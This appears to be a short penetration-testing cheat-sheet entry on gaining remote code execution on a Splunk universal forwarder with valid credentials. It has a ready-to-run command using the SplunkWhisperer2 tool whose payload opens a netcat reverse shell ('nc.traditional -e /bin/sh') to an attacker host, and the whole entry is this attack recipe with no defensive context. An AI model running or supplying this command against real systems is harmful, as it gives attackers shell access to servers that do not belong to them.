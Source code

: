 # Splunk
## RCE with valid creds on forwarder
Get
`https://github.com/cnotin/SplunkWhisperer2` than do
`python2 PySplunkWhisperer2_remote.py --host XXX --lhost XXX --username XXX --password XXX --payload "nc.traditional -e/bin/sh LHOST LPORT"`
